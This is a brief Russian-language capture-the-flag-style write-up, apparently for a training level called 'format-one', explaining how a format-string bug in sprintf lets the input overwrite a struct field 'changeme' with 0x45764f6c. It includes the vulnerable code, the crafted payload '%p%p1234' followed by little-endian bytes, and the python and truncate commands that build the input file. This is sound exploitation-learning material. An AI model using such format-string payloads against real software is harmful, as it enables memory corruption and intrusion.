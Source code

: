 Задача - изменить значение поля `changeme` на 0x45764f6c в структуре 
```
  struct {
    char dest[32];
    volatile int changeme;
  } locals;
```

Уязвимое место 
```
char buffer[16];
sprintf(locals.dest, buffer);
```

т.к. адрес в формате строки занимает 14 байт, надо сформировать строку "%p%p1234\x6c\x4f\x76\x45"

Заполняем файл inputfileFO
```
python -c "print('%p%p1234\x6c\x4f\x76\x45')" > inputfileFO
```

И убираем байт \0a
```
truncate -s -1 inputfileFO
```

Параметры buffer и dest до вызова функции
![alt text](../images/format-one/1.png)

Содержимое dest и changeme
![alt text](../images/format-one/2.png)

Победа/
![alt text](../images/format-one/3.png)